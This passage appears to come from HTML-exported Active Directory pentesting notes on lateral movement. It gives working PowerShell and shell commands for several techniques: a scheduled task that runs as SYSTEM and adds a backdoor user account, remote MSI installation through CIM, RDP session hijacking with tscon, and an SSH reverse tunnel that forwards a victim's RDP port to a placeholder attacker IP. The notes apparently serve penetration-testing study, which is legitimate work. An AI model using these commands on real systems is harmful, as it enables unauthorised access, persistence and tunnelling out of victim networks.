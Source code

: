 Invoke-CimMethod -InputObject $Service -MethodName StartService</code></pre><p id="d859b91d-d1b9-4084-88bd-bb9ec11df542" class="">
<strong>Scheduled Task Methodology</strong></p><pre id="49f578f6-da40-44f1-8ef2-6844b116ec35" class="code code-wrap"><code># Payload must be split in Command and Args
$Command = &quot;cmd.exe&quot;
$Args = &quot;/c net user 0xd4y PleaseSubscribe /add&quot;

$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User &quot;NT AUTHORITY\SYSTEM&quot; -TaskName &quot;MyTask&quot;
Start-ScheduledTask -CimSession $Session -TaskName &quot;MyTask&quot;</code></pre><p id="a2d94d06-5728-4a9a-8456-8c2cec867cd8" class=""><strong>Installing MSI Package Methodology</strong></p><p id="73d3ad7d-44d0-4ad4-9538-30f2cbbd3ec1" class="">After copying MSI file to targeted remote system run the following command to install the package.</p><pre id="b1916849-7878-4327-b565-dcd11369493b" class="code"><code>Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = &quot;C:\Windows\myinstaller.msi&quot;; Options = &quot;&quot;; AllUsers = $false}</code></pre><h3 id="217e8876-673c-45a9-94b0-a56794e83c0d" class="">RDP Hijacking</h3><ul id="e2862f8e-462c-4b7a-aac5-ebe2ba404c46" class="bulleted-list"><li style="list-style-type:disc">SYSTEM user on Windows Server 2016 does not require a password, but Windows Server 2019 does</li></ul><ul id="d3434424-e30f-46c3-bc73-17ef6cae307d" class="bulleted-list"><li style="list-style-type:disc">when user connects via RDP and closes their client but not log out, their session is still active</li></ul><ul id="14984a13-b38b-4ec8-8818-0b56a79c51e3" class="bulleted-list"><li style="list-style-type:disc">use <code>query user</code> to find sessions on machine<ul id="5a2c123d-fff6-48e5-a100-7d661a28e2d4" class="bulleted-list"><li style="list-style-type:circle">unused active sessions identified by <code>Disc</code> state</li></ul></li></ul><ul id="5aa5c69f-b469-45c3-8680-218325b850af" class="bulleted-list"><li style="list-style-type:disc">connect to session using <code>tscon &lt;SESSION_ID&gt; /dest:&lt;SESSIONNAME&gt;</code></li></ul><figure id="cbf0a186-f59b-4db5-a3e0-19e254be7752" class="image"><a href="../../../../images/Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%208.png"><img style="width:582px" src="../../../../images/Active%20Directory%20Pentesting%2013bdf411f877497282c549a5fd16d4c9/Untitled%208.png"/></a></figure><h3 id="624fe4eb-3732-426f-b686-fc70916c5195" class="">Remote Port Forwarding</h3><ol type="1" id="42b2a14c-5ba0-449f-87a5-bba7008c8001" class="numbered-list" start="1"><li>Create a user on attack box without console access:</li></ol><pre id="bf7c6e3d-f5c4-4fa9-9bc3-5c6a18788922" class="code code-wrap"><code>useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser</code></pre><ol type="1" id="bad6d0e0-2218-4d0a-8347-7c0f6dd7a5ed" class="numbered-list" start="2"><li>Forward RDP port (or whatever port it may be) to attack box:</li></ol><pre id="ff090109-ba27-46cd-a677-d747287391af" class="code"><code>ssh tunneluser@&lt;ATTACKER_IP&gt; -R 3389:&lt;RDP_MACHINE&gt;:3389 -N</code></pre><p id="95980b3d-457c-46a5-b47b-7d59ff212342" class="">
</p><p id="14b16981-630a-460e-8a71-f3cd8548a731" class="">